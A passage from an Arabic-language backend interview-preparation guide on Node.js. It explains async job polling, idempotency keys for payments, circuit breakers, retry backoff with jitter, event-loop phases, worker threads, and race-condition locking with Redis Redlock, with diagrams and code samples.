لما العميل يستدعي عملية معقدة وطويلة (مثل: طلب التاجر حساب وتسليم تقارير الأرباح السنوية وتجهيز ملف المضغوط للصور)، وعرفنا في Q69 إن العملية دي Asynchronous.
السؤال في الإنترفيو: إزاي بتصمم هيكل الـ Endpoints والـ Responses بحيث الفرونت اند يقدر يتبع حالة الشغلانة ويستلم النتيجة أول ما تخلص؟

النمط المعماري المعياري هو **Job Status Polling Pattern**:
1. **طلب البدء (`POST /api/v1/reports/annual`)**: الباك اند ينشئ Job ID، يدفع المهمة لـ Background Queue، ويرجع فوراً `202 Accepted` محتوياً على `jobId` ورابط متابعة `statusUrl`.
2. **استعلام الحالة (`GET /api/v1/jobs/:jobId`)**: الفرونت اند يستعلم كل فترة، ويرجع الباك اند حالة الشغلانة: `PENDING` (قيد الانتظار)، `PROCESSING` (جاري المعالجة مع نسبة مئوية 45%)، أو `COMPLETED` (مكتملة مع رابط النتيجة النهائي).

```mermaid
sequenceDiagram
    participant C as Client Front-End
    participant API as API Server Node.js
    participant DB as Redis Job Store

    C->>API: 1. POST /api/v1/reports/annual
    API->>DB: Save Job { id: "job-99", status: "QUEUED" }
    API-->>C: 2. 202 Accepted { jobId: "job-99", statusUrl: "/api/v1/jobs/job-99" }
    
    C->>API: 3. GET /api/v1/jobs/job-99
    API-->>C: 200 OK { status: "PROCESSING", progress: 60% }
    
    C->>API: 4. GET /api/v1/jobs/job-99 (after 10s)
    API-->>C: 200 OK { status: "COMPLETED", resultUrl: "/downloads/report-99.xlsx" }
```

```javascript
// Express Handler for Job Status Checking
app.get('/api/v1/jobs/:jobId', async (req, res) => {
  const { jobId } = req.params;
  const job = await reportQueue.getJob(jobId);

  if (!job) {
    return res.status(404).json({ error: 'الشغلانة غير موجودة' });
  }

  const state = await job.getState(); // completed, failed, delayed, active
  const progress = job.progress();
  const reason = job.failedReason;

  return res.json({
    id: jobId,
    status: state.toUpperCase(),
    progress: progress || 0,
    result: state === 'completed' ? job.returnvalue : null,
    error: state === 'failed' ? reason : null
  });
});
```

#### مثال 1: التطبيق العملي — إظهار شريط التقدم (Progress Bar) في الواجهة

في لوحة تحكم التاجر، لما يطلب تصدير بيانات 100,000 منتج، الواجهة بتستقبل الـ `jobId` وتستعلم كل 3 ثواني. الباك اند يرجع `progress: 75%` ليظهر شريط التقدم حياً للتاجر حتى يكتمل الملف بدقة.

#### مثال 2: فخ شائع — نسيان تنظيف وتأمين الـ Completed Jobs في الذاكرة

من الفخاخ ترك الـ Completed Jobs معلقة في Redis للأبد! بعد فترة، ذاكرة Redis تمتلى بالـ Jobs القديمة وتنهار. الصواب هو تحديد **Auto-Removal Policy** (`removeOnComplete: 100`) لمسح الـ Jobs القديمة تلقائياً بعد انقضاء يومين.

#### مثال 3: حالة إنتاجية — الجمع بين Status Polling وWebSockets للاستجابة اللحظية

في التطبيقات الاحترافية، بنوفر الطريقين: الفرونت اند بيحاول يشترك بـ WebSocket على غرف `job:job-99` لاستلام إشعار الانتهاء لحظياً بدون Polling. ولو اتصل الـ WebSocket اتقطع، الفرونت اند يعود تلقائياً لـ Status Polling كـ Fallback مضمون.

---

## Q83 — إيه هو الـ Idempotency Key في تصميم مدفوعات الـ APIs، ولإيه هو خط الدفاع الأول؟

### أصل الحكاية

تخيل السيناريو الكارثي التالي في منصة التجارة الإلكترونية: الزبون ضغط زرار "تأكيد دفع 500$" في صفحة Checkout. الطلب وصل لسيرفر الباك اند، والسيرفر خصم المبلغ من الكارت البنكي بالفعل... لكن في نفس الميكروثانية، شبكة موبايل الزبون قطعت قبل ما يستلم الـ HTTP Response!
الزبون شايف الواجهة معلقة، فيقوم ضاغط زرار "تأكيد الدفع" مرة ثانية! لو الباك اند نفذ الطلب الثاني كعملية جديدة... فالزبون هينخصم منه 500$ مرتين (Double Charging) وتحدث مشكلة مالية وقانونية كبيرة!

النمط المعماري المالي للحماية هو **Idempotency Key Pattern**:
الـ Idempotency (التماثلية) معناه أن تنفيذ نفس الطلب 10 مرات متتالية ينتج عنه **نفس التأثير والنتيجة لمرة واحدة فقط دون تكرار الخصم**.
الفرونت اند بيولّد UUID عشوائي يسمى **`Idempotency-Key`** ويرفقه في הـ Header مع طلب الدفع. السيرفر بيحفظ المفتاح ده في Redis قبل التنفيذ:
- لو الطلب وصل لأول مرة: ينفذ الخصم ويحفظ النتيجة باسم المفتاح.
- لو الطلب وصل بنفس المفتاح مرة أخرى (بسبب انقطاع الشبكة أو التكرار): السيرفر لا يلمس البنك نهائياً! هو فقط يرجع الرد الأصلي المخزن مسبقاً فوراً!

```mermaid
sequenceDiagram
    participant C as Customer Mobile App
    participant API as API Server Node.js
    participant R as Redis Idempotency Store
    participant Bank as Stripe Payment Gateway

    C->>API: POST /api/v1/payments (Header: Idempotency-Key: Key-ABC-123)
    API->>R: SETNX idempotency:Key-ABC-123 "PROCESSING"
    Note over API: Key is NEW -> Execute Bank Charge
    API->>Bank: Charge $500
    Bank-->>API: Success Trans #999
    API->>R: SET idempotency:Key-ABC-123 "SUCCESS: Trans #999"
    API--xC: Network drops! Response lost!

    Note over C: Client Retries automatically with SAME Key-ABC-123
    C->>API: POST /api/v1/payments (Header: Idempotency-Key: Key-ABC-123)
    API->>R: GET idempotency:Key-ABC-123
    R-->>API: Returns "SUCCESS: Trans #999" (Key exists!)
    Note over API: DO NOT CHARGE BANK AGAIN! Return cached result!
    API-->>C: 200 OK Trans #999 (No Double Charge!)
```

```javascript
// Idempotency Middleware for Payment Endpoints
async function idempotencyMiddleware(req, res, next) {
  const idempotencyKey = req.headers['idempotency-key'];
  if (!idempotencyKey) {
    return res.status(400).json({ error: 'Idempotency-Key header is required for payment operations' });
  }

  const redisKey = `idempotency:${req.user.id}:${idempotencyKey}`;
  const cachedResponse = await redis.get(redisKey);

  if (cachedResponse) {
    // Return EXACT previous response without executing controller logic!
    const { status, body } = JSON.parse(cachedResponse);
    return res.status(status).json(body);
  }

  // Hook into res.json to cache response before sending to client
  const originalJson = res.json.bind(res);
  res.json = (body) => {
    if (res.statusCode >= 200 && res.statusCode < 300) {
      redis.set(redisKey, JSON.stringify({ status: res.statusCode, body }), 'EX', 86400); // 24h expiration
    }
    return originalJson(body);
  };

  next();
}
```

#### مثال 1: التطبيق العملي — توليد Idempotency-Key فريد لكل محاولة شراء

في فرونت اند المتجر، لما شاشة Checkout تفتح، الكود بيولّد `const idempotencyKey = crypto.randomUUID()`. لو الزبون ضغط "دفع" 5 مرات متتالية بسرعة بسبب التوتر، الطلبات الـ 5 بتروح بنفس المفتاح، الباك اند ينفذ الأولى ويرد بالنتيجة نفسها للـ 4 الباقين بدون خصم سنت واحد زيادة.

#### مثال 2: فخ شائع — عدم تحديد وقت انتهاء (TTL) لمفاتيح الـ Idempotency في Redis

من الفخاخ المعمارية حفظ مفاتيح الـ Idempotency في Redis بدون `EXPIRE` (TTL)! بعد فترة ذاكرة Redis تمتلى كلياً. الصواب هو تحديد عمر 24 إلى 48 ساعة للمفتاح، وهو وقت كافٍ جداً لتغطية كل محاولات إعادة الاتصال الشبكية.

#### مثال 3: حالة إنتاجية — معالجة الطلبات المتزامنة في نفس الميكروثانية (Concurrent Race Condition)

لو الطلبين المتطابقين وصلوا لسيرفرين مختلفين ورا Load Balancer في **نفس الميكروثانية**... بنستخدم **Atomic Redis Lock (`SET key value NX EX 30`)**. أول طلب ياخد الـ Lock وينفذ الشغلانة، والطلب التاني يلقى الـ Lock معلق فينتظر 200ms ليقرأ النتيجة الإجبارية المخزنة.

---

## Q84 — إيه هو الـ Circuit Breaker Pattern، وإزاي بيحمي المنصة من السقوط المتتالي (Cascading Failures)؟

### أصل الحكاية

في معمارية الـ Microservices لمنصة التجارة الإلكترونية، خدمة الطلبات (Order Service) بتستدعي خدمة تقييم المخاطر البنكية الخارجية (Risk Service API). تخيل لو خدمة المخاطر الخارجية دي حصل فيها عطل وتوقفت عن الرد وبقت بتاخد 30 ثانية في كل طلب وتجيب Timeout!

لو سيرفر الطلبات بيستقبل 500 طلب في الثانية وكل طلب يفضل معلق 30 ثانية مستني الخدمة المكسورة... اتصالات الـ Database والـ Thread Pool لسيرفر الطلبات كله هتتخنق وتتصفّر في 3 ثواني! والنتيجة: **سقوط متتالي (Cascading Failure)** لخدمة الطلبات ثم المتجر كله بسبب خدمة فرعية واحدة!

الحل المعماري هو **Circuit Breaker Pattern (مفتاح القطع التلقائي)** (زي قاطع الكهرباء في بيتك):
نمط بيغلف الاستدعاء الخارجي ويراقب نسبة الأخطاء والـ Timeouts. النمط ليه 3 حالات:
1. **Closed (مغلق - طبيعي)**: الطلبات بتمر بشكل طبيعي للخدمة الخارجية.
2. **Open (مفتوح - قاطع)**: لما نسبة الأخطاء تتجاوز الحد (مثل 50% من الطلبات فشلت)، المفتاح **يقطع الاتصال فوراً**! أي طلب جديد يترفض في 1ms بـ Fallback فوري بدون استدعاء الخدمة المكسورة لحماية سيرفراتك من الخنق.
3. **Half-Open (نصف مفتوح - اختبار)**: بعد انقضاء وقت التجربة (مثلا 30 ثانية)، المفتاح يسمح بمرور طلبين تجريبيين. لو نجحوا يرجع **Closed**، ولو فشلوا يرجع **Open**.

```mermaid
flowchart TD
    subgraph Circuit Breaker State Machine
        Closed[1. CLOSED State Normal Operation] -->|Error Rate > 50%| Open[2. OPEN State Cut-off & Return Fallback < 1ms]
        Open -->|After 30s Cool Down| HalfOpen[3. HALF-OPEN Test limited requests]
        HalfOpen -->|Test Succeeded| Closed
        HalfOpen -->|Test Failed| Open
    end
```

```javascript
// Circuit Breaker with Opossum library in Node.js
const CircuitBreaker = require('opossum');

async function callExternalRiskService(orderData) {
  const response = await axios.post('https://risk-api.external.com/verify', orderData, { timeout: 2000 });
  return response.data;
}

const options = {
  timeout: 3000, // If function takes longer than 3s, trigger failure
  errorThresholdPercentage: 50, // Open circuit if 50% of requests fail
  resetTimeout: 30000 // Try again after 30 seconds (Half-Open)
};

const breaker = new CircuitBreaker(callExternalRiskService, options);

// Fallback response when Circuit is OPEN
breaker.fallback(() => ({ status: 'SKIPPED', note: 'Risk service unavailable, bypassing check safely' }));

// Inside Order Controller:
app.post('/api/v1/orders', async (req, res) => {
  const riskResult = await breaker.fire(req.body);
  // Process order with risk result or fallback...
});
```

#### مثال 1: التطبيق العملي — حماية المتجر عند تعطل خدمة توصيل الشحنات الخارجية

في المتجر، خدمة حساب تكلفة الشحن تستدعي API شركة Aramex. لو سيرفر Aramex وقع، الـ Circuit Breaker يفتح فوراً ويرجع **Fallback Price** (تكلفة شحن ثابتة 5$) ليبقى الزبون قادراً على الشراء بدلاً من تجميد المتجر بالكامل!

#### مثال 2: فخ شائع — عدم تحديد Timeouts صارمة داخل الـ Circuit Breaker

من الفخاخ ضبط Circuit Breaker بدون تحديد `timeout` صريح للاستدعاء! لو الخدمة الخارجية معلقة والـ Timeout مش مضبوط، المفتاح مش هيعتبر الاستدعاء المعلق خطأ، وتظل اتصالات السيرفر مخنوقة في الانتظار.

#### مثال 3: حالة إنتاجية — مراقبة حالة الـ Circuit Breakers على Grafana Dashboard

في بيئات الإنتاج، بنربط حالة الـ Circuit Breakers بـ Metrics (Prometheus). أول ما أي مفتاح يتحول لـ `OPEN` يظهر مؤشر أحمر صريح في Grafana Dashboard ويبعت تنبيه لفريق الـ DevOps للتدخل وفحص الخدمة الخارجية.

---

## Q85 — إيه أهمية الـ Exponential Backoff وJitter في إعادة المحاولة (Retries)؟

### أصل الحكاية

لما الباك اند يستدعي خدمة خارجية أو قاعدة بيانات ويحصل خطأ شبكة مؤقت (Transient Network Error)... التصرف الطبيعي هو إعادة المحاولة (**Retry Mechanism**).
لكن السؤال في الإنترفيو: إزاي بتصمم زمن إعادة المحاولة عشان ما تتسببش في هجوم DDoS على السيرفر التعافي وتمنع انهياره مجدداً؟

لو عندك 5,000 طلب فشلوا في نفس اللحظة بسبب انقطاع شبكة خاطف...
لو كل الـ 5,000 طلب عملوا Retry بعد 1 ثانية بالضبط... فـ 5,000 طلب هيضربوا السيرفر المتعافي في نفس الميكروثانية ويوقعوه تاني (**Thundering Herd Problem**)!

الحل القياسي يتكون من جزأين:
1. **Exponential Backoff (التراجع الأسّي)**: مضاعفة زمن الانتظار بعد كل محاولة فاشلة (المحاولة 1: انتظر 1s، المحاولة 2: انتظر 2s، المحاولة 3: انتظر 4s، المحاولة 4: انتظر 8s...).
2. **Jitter (التشويش العشوائي)**: إضافة رقم عشوائي (Random Noise) لزمن الانتظار لتفتيت وتشتيت مواعيد إرسال الطلبات بين العملاء ومنع تجمهرهم في نفس اللحظة.

```mermaid
flowchart TD
    Fail[Request Failed Transient Error] --> Attempt{Retry Count}
    Attempt -->|Attempt 1| Wait1[Wait: 1s + Random Jitter 120ms]
    Attempt -->|Attempt 2| Wait2[Wait: 2s + Random Jitter 450ms]
    Attempt -->|Attempt 3| Wait3[Wait: 4s + Random Jitter 800ms]
    
    Wait1 & Wait2 & Wait3 --> RetryCall[Execute Retry]
```

```javascript
// Exponential Backoff with Jitter algorithm in Node.js
async function fetchWithRetry(fn, maxRetries = 4, baseDelayMs = 1000) {
  for (let attempt = 0; attempt < maxRetries; attempt++) {
    try {
      return await fn(); // Attempt call
    } catch (error) {
      if (attempt === maxRetries - 1) throw error; // Max retries reached, throw!

      // Calculate Exponential Delay: base * 2^attempt
      const exponentialDelay = baseDelayMs * Math.pow(2, attempt);
      // Add Jitter: Random value between 0 and 1000ms
      const jitter = Math.random() * 1000;
      const totalDelay = exponentialDelay + jitter;

      console.log(`Attempt ${attempt + 1} failed. Retrying in ${Math.round(totalDelay)}ms...`);
      await new Promise(resolve => setTimeout(resolve, totalDelay));
    }
  }
}
```

#### مثال 1: التطبيق العملي — إعادة استدعاء بوابة الدفع عند مشاكل الشبكة العابرة

في منصة المتجر، عند فشل إرسال الإشعار لبوابة الدفع بسبب بطء شبكة عابر، دالة `fetchWithRetry` بتعيد المحاولة بـ Exponential Backoff + Jitter وتنجح المعاملة في المحاولة الثانية بدون ما الزبون يشوف خطأ.

#### مثال 2: فخ شائع — إعادة المحاولة على الأخطاء الدائمة (Non-Transient Errors like 404 / 401)

من أكبر الأخطاء إعادة المحاولة (Retry) عند استلام رد `401 Unauthorized` أو `404 Not Found` أو `422 Validation Error`! الأخطاء دي أخطاء دائمية لن تتغير بإعادة المحاولة وستتسبب فقط في إرهاق السيرفر بلا فائدة. الـ Retries مخصصة فقط لأخطاء الشبكة والـ 5xx Timeouts (Transient Errors).

#### مثال 3: حالة إنتاجية — تحديد سقف أقصى للتراجع (Max Backoff Limit) وعدد المحاولات

في البيئة الإنتاجية، حساب `base * 2^attempt` ممكن يوصل لـ 3 ساعات في المحاولة الثامنة! بنحدد صراحة **Max Backoff Cap** (مثلا: لا يزيد زمن الانتظار عن 30 ثانية كحد أقصى) وتحديد حد أقصى للمحاولات (3 إلى 5 محاولات فقط).

---

> [!tip] Checkpoint نهائي للموضوع (تصميم APIs متقدم وواقعي)
> **مراجعة محورية لتصميم الـ APIs المتقدم:**
> 1. **Contract-First & Orval (Q78)**: اعتمد OpenAPI Spec كعقد موحد لتوليد كود التايب سكريبت والفرونت اند تلقائياً ومنع تضارب الخانات.
> 2. **Secure Webhooks (Q79)**: احمِ استقبال الـ Webhooks بـ HMAC Signature verification وافحص الـ Idempotency لمنع التكرار والتدليس.
> 3. **API Versioning & S3 Uploads (Q80 & Q81)**: استخدم URL Path Versioning للتغيرات الجوهرية، وارفع ملفات الميديا الكبيرة مباشرة لـ S3 بـ Presigned URLs.
> 4. **Resiliency Patterns (Q83, Q84 & Q85)**: احمِ العمليات المالية بـ Idempotency Keys، واقطع الاتصالات بالخدمات المكسورة بـ Circuit Breaker، واستخدم Exponential Backoff مع Jitter في الـ Retries.

---

## Q86 — إيه هي مراحل الـ Event Loop بالتفصيل في Node.js؟

### أصل الحكاية

في Q43 شفنا المفهوم العام للـ Non-Blocking I/O Event Loop. لكن السؤال التخصصي في المقابلات المتقدمة: **"إيه هي المراحل الدقيقة (Phases) اللي بيتحرك فيها الـ Event Loop داخل مكتبة libuv في Node.js، وإيه الفرق بين Microtasks وMacrotasks؟"**

الـ Event Loop بتلف في دورة مستمرة تتكون من 6 مراحل رئيسية بالترتيب التالي:
1. **Timers Phase**: تنفيذ الـ Callbacks الصادرة من `setTimeout` و `setInterval`.
2. **Pending Callbacks Phase**: تنفيذ callbacks الـ I/O المعلقة من الدورة السابقة (مثل أخطاء شبكة TCP).
3. **Idle, Prepare Phase**: استخدام داخلي لمحرك Node.js فقط.
4. **Poll Phase (أهم مرحلة)**: استقبال اتصالات الـ I/O الجديدة (قراءة ملفات، استعلامات DB، طلبات HTTP).
5. **Check Phase**: تنفيذ الـ Callbacks الصادرة صراحة من `setImmediate()`.
6. **Close Callbacks Phase**: تنفيذ callbacks إغلاق الـ Sockets (مثل `socket.on('close')`).

**قاعدة الـ Microtasks الذهبية**:
طابور الـ Microtasks يضم (`process.nextTick()` و `Promises/async-await`). **طابور الـ Microtasks يفرغ بالكامل فوراً بين كل مرحلة وأخرى من مراحل الـ Event Loop!**

```mermaid
flowchart TD
    Start[Event Loop Starts] --> Timers[1. Timers Phase setTimeout / setInterval]
    Timers --> Pending[2. Pending Callbacks Phase]
    Pending --> Poll[3. Poll Phase Retrieve new I/O events & execute callbacks]
    Poll --> Check[4. Check Phase setImmediate callbacks]
    Check --> Close[5. Close Callbacks Phase socket.on close]
    
    subgraph Microtask Priority Injection
        Micro[Microtask Queue process.nextTick & Promises]
        Note over Micro: Executed IMMEDIATELY after current operation finishes, BEFORE moving to next phase!
    end

    Close --> Timers
```

```javascript
// Demonstrating Event Loop Phase Order
console.log('1. Synchronous Main Line');

setTimeout(() => console.log('2. Timers Phase (setTimeout)'), 0);
setImmediate(() => console.log('3. Check Phase (setImmediate)'));

Promise.resolve().then(() => console.log('4. Microtask Queue (Promise.then)'));
process.nextTick(() => console.log('5. Top Priority Microtask (process.nextTick)'));

/* Execution Order Output:
1. Synchronous Main Line
5. Top Priority Microtask (process.nextTick)
4. Microtask Queue (Promise.then)
2. Timers Phase (setTimeout)  (or 3 depending on poll timing)
3. Check Phase (setImmediate)
*/
```

#### مثال 1: التطبيق العملي — الاستفادة من `setImmediate` لجدولة العمليات بعد الـ I/O

داخل callback قراءة ملف من القرص (Poll Phase)، استخدام `setImmediate` يضمن تنفيذ الكود فوراً في مرحلة الـ Check التالية مباشرة قبل الـ Timers، مما يمنح أداءً متوقعاً لسيرفر المتجر.

#### مثال 2: فخ شائع — الـ Infinite Recursive `process.nextTick` وسد الـ Event Loop

من الفخاخ الكارثية كتابة دالة `process.nextTick()` تنادي نفسها عودياً (Recursive)! لأن الـ Microtask Queue يجب أن يفرغ تماماً قبل الانتقال للمرحلة التالية، الـ Event Loop سيتجمد في طابور Microtask للأبد ولن يصل لمرحلة الـ Poll، مما يتسبب في **Event Loop Starvation** وتوقف سيرفر Node.js عن استلام طلبات الزبائن!

#### مثال 3: حالة إنتاجية — مراقبة الـ Event Loop Lag بـ `perf_hooks`

في بيئة الإنتاج، بنراقب مؤشر **Event Loop Lag**: الفارق الزمني بين وقت جدولة الـ Timer ووقت تنفيذه المالي. لو الـ Lag تجاوز 100ms، فهذا يعني أن هناك عمليات Synchronous ثقيلة تخنق الـ Event Loop ويجب ترحيلها لـ Worker Threads (Q87).

---

## Q87 — إمتى تستخدم Worker Threads وإمتى تستخدم الـ Cluster Module في Node.js؟

### أصل الحكاية

الجميع يعلم أن Node.js يعمل بـ Single Thread. لكن لو احتاج متجر التجارة الإلكترونية لتنفيذ **CPU-Intensive Tasks** (مثل: تشفير وفك تشفير ملفات ضخمة، معالجة وتعديل الصور، أو حساب معادلات الرياضيات المتقدمة)... تنفيذ العملية دي على الـ Main Thread سيتسبب في تجميد سيرفر Node.js كلياً ورفض طلبات جميع الزبائن!

لديك أداتان رسميتان داخل Node.js لتوزيع الأحمال:

- **Cluster Module (توسع العمليات - Process Forking)**: تشغيل **نسخ ومحركات Node.js متعددة وكاملة (Multiple Processes)** تشترك جميعها في فتح نفس الـ Network Port (عادة بعدد كروت الـ CPU Cores). كل عملية لها الذاكرة والـ Event Loop المستقل الخاص بها. (مثالي للـ I/O Scaling واستغلال كروت الـ CPU).
- **Worker Threads Module (تعدد الخيوط - Threading inside Process)**: تشغيل **خيوط تنفيذ متعددة داخل نفس عملية Node.js الواحدة (Multiple Threads in Single Process)** تتشارك نفس الذاكرة عبر `ArrayBuffer/SharedArrayBuffer`. (مثالي للـ CPU-Bound Calculations).

```mermaid
flowchart TD
    subgraph Cluster Module Scale Processes
        Port[Shared Port 3000 Primary Master] --> W1[Worker Process 1 Node V8 Instance]
        Port --> W2[Worker Process 2 Node V8 Instance]
        Port --> W3[Worker Process 3 Node V8 Instance]
    end

    subgraph Worker Threads Module Scale CPU Work
        MainProc[Single Node.js Process Main Event Loop] --> WT1[Worker Thread 1: Image Resizing]
        MainProc --> WT2[Worker Thread 2: Crypto Hashing]
        Note over WT1,WT2: Shared Memory ArrayBuffer via MessageChannel
    end
```

```javascript
// Worker Threads Example for Heavy CPU Processing
const { Worker, isMainThread, parentPort, workerData } = require('worker_threads');

if (isMainThread) {
  // Main Thread: Handles Web API Requests
  app.post('/api/v1/admin/resize-images', (req, res) => {
    const worker = new Worker(__filename, { workerData: req.body.imageBuffer });
    worker.on('message', (result) => res.json({ status: 'done', resized: result }));
    worker.on('error', (err) => res.status(500).json({ error: err.message }));
  });
} else {
  // Worker Thread: Executes Heavy CPU Bound Image Processing
  const processedBuffer = heavyImageResize(workerData);
  parentPort.postMessage(processedBuffer); // Send result back to Main Thread
}
```

#### مثال 1: التطبيق العملي — استخدام Cluster Module في خوادم الإنتاج الـ Bare-Metal

في سيرفر يمتلك 16 CPU Cores، بنشغل Cluster Module ليقوم Master Process بتوزيع الـ HTTP Connections على 16 Worker Process، مما يتيح لسيرفر المتجر استقبال 16 ضعفاً من طلبات الشراء في نفس الوقت.

#### مثال 2: فخ شائع — ظن أن Worker Threads يحل مشكلة الـ I/O Scaling

من الفخاخ المعمارية استخدام Worker Threads لتنفيذ استعلامات قواعد البيانات أو طلبات الـ HTTP! الـ I/O في Node.js أصلًا مصمم ليكون Asynchronous ومُدار بكفاءة عالية بواسطة libuv Thread Pool. استخدام Worker Threads للـ I/O يضيف تكلفت انتقال البيانات بين الـ Threads دون أي زيادة في الأداء.

#### مثال 3: حالة إنتاجية — نقل عمليات التشفير وحساب الـ Passwords لـ Worker Threads

في منصات التجارة الضخمة عند معالجة ملفات الأرقام السرية وتشفيرها بـ Argon2/Bcrypt مع آلاف الزبائن في نفس اللحظة، نقل عمليات الـ Hashing الثقيلة لـ **Worker Thread Pool** يحافظ على سلاسة وسرعة الـ Main Event Loop دون أي تأخير للردود.

---

## Q88 — إيه هي الـ Race Conditions في Distributed Systems، وإزاي تكتشفها وتمنعها؟

### أصل الحكاية

تخيل السيناريو الكارثي التالي في متجر التجارة الإلكترونية: منتج جديد محدود الكمية (مثل سبيكة ذهب) متبقي منه **قطعة واحدة فقط في المخزون (`stock = 1`)**.
في نفس الميكروثانية exact، قام زبونان (الزبون A والزبون B) بالضغط على زر "تأكيد الشراء".

السيرفر A استلم طلب الزبون A، والسيرفر B استلم طلب الزبون B.
1. السيرفر A يقرأ المخزون من الداتابيز: `SELECT stock FROM products WHERE id = 42` -> يرجع `1`.
2. السيرفر B يقرأ المخزون من الداتابيز: `SELECT stock FROM products WHERE id = 42` -> يرجع `1`.
3. السيرفر A يوافق وخصم قطعة: `UPDATE products SET stock = stock - 1` -> يصبح المخزون `0`.
4. السيرفر B يوافق وخصم قطعة: `UPDATE products SET stock = stock - 1` -> يصبح المخزون `-1`!

حدث ما يسمى بـ **Race Condition (سباق التنفيذ)**: تمت بيع القطعة الواحدة لزبونين مختلفين!

الحل هو حماية الموارد المشتركة عبر تقنيات القفل:
- **Optimistic Locking (القفل المتفائل)**: باستخدام عامود `version` في السيرفر الواحد.
- **Pessimistic Locking (القفل المتشائم)**: باستخدام `SELECT ... FOR UPDATE` في قواعد البيانات SQL.
- **Distributed Locks (القفل الموزع)**: باستخدام Redis Redlock عبر السيرفرات الموزعة (Q89).

```mermaid
sequenceDiagram
    participant A as Customer A Request
    participant B as Customer B Request
    participant DB as Postgres Database

    Note over A,B,DB: Race Condition (Without Locks)
    A->>DB: 1. SELECT stock (returns 1)
    B->>DB: 2. SELECT stock (returns 1)
    A->>DB: 3. UPDATE stock = 0 (Success!)
    B->>DB: 4. UPDATE stock = -1 (Oversold Disaster!)

    Note over A,B,DB: Prevention via Pessimistic Lock (SELECT FOR UPDATE)
    A->>DB: 1. BEGIN; SELECT stock FOR UPDATE (Locks Row 42!)
    B->>DB: 2. BEGIN; SELECT stock FOR UPDATE (BLOCKED & WAITS...)
    A->>DB: 3. UPDATE stock = 0; COMMIT; (Unlocks Row 42)
    B->>DB: 4. Unblocked -> Reads stock = 0 -> Throws Out of Stock Error!
```

```sql
-- Optimistic Locking with Version Column
UPDATE products 
SET stock = stock - 1, version = version + 1 
WHERE id = 42 AND version = 5 AND stock >= 1;
-- If row count returned is 0, another request won the race! Retry or Rollback!
```

#### مثال 1: التطبيق العملي — منع البيع الزائد بـ `SELECT ... FOR UPDATE`

في نظام حجز تذاكر الحفلات والمنتجات، نضع استعلام حجز القطعة داخل Database Transaction مع **`SELECT ... FOR UPDATE`**. محرك الداتابيز يقفل الصف صراحة، والمعاملات الأخرى تقف في طابور المنتظرين حتى تنتهي الأولى.

#### مثال 2: فخ شائع — استخدام الـ Check-Then-Act غير الذري في الكود المحلي

من الفخاخ كتابة `if (product.stock > 0) { await db.buy(); }` في كود Node.js! بين السطر الأول والثاني، الـ Event Loop ممكن ينفذ طلب زبون تاني، مما ينفي فائدة الشرط كلياً. العمليات الحاسمة يجب أن تكون **Atomic DB Operations**.

#### مثال 3: حالة إنتاجية — الـ Optimistic Locking لتقديم أفضل قراءة عالية الأداء

في المنصات التي تملك نسبة قراءة أعلى بكثير من الكتابة، بنفضل **Optimistic Locking**: لا نقفل الجداول عند القراءة، وعند التحديث نفحص الـ `version`. لو الـ Version اختلف، تلغى المعاملة ويطلب من العميل إعادة المحاولة، مما يوفر أداءً أسرع 10 أضعاف بدون قفل الجداول.

---

## Q89 — إيه هو الـ Mutex والـ Distributed Lock (Redis Redlock)، وإمتى تستخدم كلاً منهما؟

### أصل الحكاية

في Q88 تعلمنا خطورة الـ Race Conditions. لحماية الأكواد والموارد المشتركة، بنستخدم **Locks (الأقفال)** لتضمن أن خيطاً أو سيرفر واحد فقط يستطيع تنفيذ العملية في الوقت الواحد.

- **Mutex (Mutual Exclusion - القفل المحلي)**: أداة قفل تعيش داخل ذاكرة **عملية واحدة وسيرفر واحد (In-Memory Mutex)**. بتضمن إن Thread واحد فقط ينفذ الدالة. (تصلح للـ Single Server monolith).
- **Distributed Lock (القفل الموزع - Redis Redlock)**: عندما يتوسع النظام لـ 20 سيرفر API ورا Load Balancer، الـ Mutex المحلي لن ينفع لأن كل سيرفر له ذاكرته الخاصة! هنا بنحتاج **Distributed Lock** معتمد على شارد **Redis** أو Zookeeper مركزياً، ليطلب السيرفر القفل عبر الشبكة من Redis قبل البدء.

خوارزمية **Redlock** الصادرة من مؤلف Redis بتضمن الأمان حتى لو سقطت بعض خوادم Redis عبر أخذ موافقة أغلبية خوادم Redis (Quorum Majority).

```mermaid
flowchart TD
    subgraph Multiple Node.js Server Instances
        S1[Server Instance 1]
        S2[Server Instance 2]
        S3[Server Instance 3]
    end

    subgraph Central Distributed Lock Manager
        Redis[(Central Redis Cluster)]
    end

    S1 -->|1. Acquires Lock SET lock:order:42 NX EX 10| Redis
    Redis -- "OK (Lock Granted)" --> S1
    
    S2 -->|2. Tries to Acquire Lock SET lock:order:42 NX EX 10| Redis
    Redis -- "NULL (Lock Denied - Wait)" --> S2
    
    S1 -->|3. Finishes Process & Releases Lock DEL| Redis
```

```javascript
// Distributed Lock with Redlock in Node.js
const Redlock = require('redlock').default;
const Redis = require('ioredis');

const redisClient = new Redis(process.env.REDIS_URL);
const redlock = new Redlock([redisClient], { retryCount: 3, retryDelay: 200 });

async function processExclusivePayment(orderId, amount) {
  const lockKey = `locks:payment:${orderId}`;
  const ttl = 5000; // Lock expires in 5 seconds automatically

  let lock;
  try {
    // 1. Acquire Distributed Lock
    lock = await redlock.acquire([lockKey], ttl);

    // 2. Execute Payment logic safely without Race Conditions!
    await executeBankPayment(orderId, amount);

  } finally {
    // 3. Release Lock safely
    if (lock) await lock.release();
  }
}
```

#### مثال 1: التطبيق العملي — تنظيم عمليات السحب المالي لحسابات التجار

عند تحويل الأرباح لحساب التاجر، نطلب Distributed Lock باسم `locks:merchant:42`. أي طلب تحويل آخر متزامن ينتظر حتى يكتمل التحويل الأول وتتحدث المحفظة الماليّة بدقة.

#### مثال 2: فخ شائع — نسيان تحديد زمن انتهاء تلقائي (TTL) للـ Lock

من الفخاخ الكارثية أخذ Distributed Lock بدون `TTL` (Expirations)! لو سيرفر Node.js سقط أو حصل فيه `process.exit()` أثناء حيازة القفل قبل تنفيذه لـ `release()`، المورد سيتجمد للأبد ولن يستطيع أي زبون الشراء! الصواب هو تحديد TTL منطقي (مثلا 5 ثواني).

#### مثال 3: حالة إنتاجية — الـ Automatic Lock Extension (Heartbeat Renewal)

في العمليات الكبيرة التي قد تستغرق وقتا غير متوقع، بنستخدم خاصية **Lock Renewal Heartbeat**: طالما الدالة شغالة بسلام، يتم تمديد عمر الـ Lock أوتوماتيكياً كل ثانيتين لمنع انتهاء القفل قبل اكتمال المعاملة.

---

## Q90 — إزاي تكتشف وتمنع الـ Thread Pool Starvation في Node.js؟

### أصل الحكاية

